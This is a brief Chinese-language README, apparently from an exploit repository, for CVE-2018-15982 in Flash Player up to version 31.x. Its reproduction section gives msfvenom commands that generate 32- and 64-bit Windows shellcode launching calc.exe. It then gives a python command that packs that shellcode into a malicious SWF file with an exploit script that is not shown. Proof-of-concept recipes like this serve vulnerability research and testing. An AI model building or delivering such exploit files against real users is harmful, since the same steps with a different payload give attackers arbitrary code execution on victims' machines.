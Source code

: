 # CVE-2018-15982 REC

_影响软件_
+ Flash Player
_影响版本_
+ =< 31.x


## 复现

` 
    msfvenom -p windows/exec cmd=calc.exe -f raw > 86.bin

    msfvenom -p windows/x64/exec cmd=calc.exe -f raw > 64.bin

    python CVE-2018-15982.py -i 86.bin -I 64.bin -o apt.swf
`